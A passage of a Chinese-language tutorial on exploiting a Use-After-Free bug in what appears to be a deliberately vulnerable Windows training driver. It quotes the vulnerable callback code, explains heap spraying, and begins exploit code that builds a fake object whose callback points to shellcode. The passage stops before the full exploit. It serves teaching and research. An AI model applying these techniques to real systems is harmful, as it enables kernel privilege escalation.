 如果你是一个pwn选手，那么肯定很清楚UAF的原理，简单的说，Use After Free 就是其字面所表达的意思，当一个内存块被释放之后再次被使用。但是其实这里有以下几种情况：
- 内存块被释放后，其对应的指针被设置为 NULL,然后再次使用，自然程序会崩溃。  
- 内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，没有代码对这块内存块进行修改，那么程序很有可能可以正常运转。
- 内存块被释放后，其对应的指针没有被设置为 NULL，但是在它下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，就很有可能会出现奇怪的问题。  

而我们一般所指的 Use After Free 漏洞主要是后两种。此外，我们一般称被释放后没有被设置为 NULL 的内存指针为 dangling pointer。类比Linux的内存管理机制，Windows下的内存申请也是有规律的，我们知道`ExAllocatePoolWithTag`函数中申请的内存并不是胡乱申请的，操作系统会选择当前大小最合适的空闲堆来存放它。如果你足够细心的话，在源码中你会发现在`UseUaFObject`中存在`g_UseAfterFreeObject->Callback()`;的片段，如果我们将`Callback`覆盖为`shellcode`就可以提权了
```
typedef struct _USE_AFTER_FREE {
    FunctionPointer Callback;
    CHAR Buffer[0x54];
} USE_AFTER_FREE, *PUSE_AFTER_FREE;
 
PUSE_AFTER_FREE g_UseAfterFreeObject = NULL;
 
NTSTATUS UseUaFObject() {
    NTSTATUS Status = STATUS_UNSUCCESSFUL;
 
    PAGED_CODE();
 
    __try {
        if (g_UseAfterFreeObject) {
            DbgPrint("[+] Using UaF Object\n");
            DbgPrint("[+] g_UseAfterFreeObject: 0x%p\n", g_UseAfterFreeObject);
            DbgPrint("[+] g_UseAfterFreeObject->Callback: 0x%p\n", g_UseAfterFreeObject->Callback);
            DbgPrint("[+] Calling Callback\n");
 
            if (g_UseAfterFreeObject->Callback) {
                g_UseAfterFreeObject->Callback(); // g_UseAfterFreeObject->shellcode();
            }
 
            Status = STATUS_SUCCESS;
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        Status = GetExceptionCode();
        DbgPrint("[-] Exception Code: 0x%X\n", Status);
    }
 
    return Status;
}
```

## 0x02：漏洞利用
### 利用思路
如果我们一开始申请堆的大小和UAF中堆的大小相同，那么就可能申请到我们的这块内存，假如我们又提前构造好了这块内存中的数据，那么当最后释放的时候就会指向我们shellcode的位置，从而达到提取的效果。但是这里有个问题，我们电脑中有许许多多的空闲内存，如果我们只构造一块假堆，我们并不能保证刚好能够用到我们的这块内存，所以我们就需要构造很多个这种堆，换句话说就是堆海战术吧，如果你看过0day安全这本书，里面说的堆喷射也就是这个原理。
### 利用代码
根据上面我们已经得到提权的代码，相当于我们只有子弹没有枪，这样肯定是不行的，我们首先伪造环境
```
typedef struct _FAKE_USE_AFTER_FREE
{
    FunctionPointer countinter;
    char bufffer[0x54];
}FAKE_USE_AFTER_FREE, *PUSE_AFTER_FREE;
 
PUSE_AFTER_FREE fakeG_UseAfterFree = (PUSE_AFTER_FREE)malloc(sizeof(FAKE_USE_AFTER_FREE));
fakeG_UseAfterFree->countinter = ShellCode;
RtlFillMemory(fakeG_UseAfterFree->bufffer, sizeof(fakeG_UseAfterFree->bufffer), 'A');
```
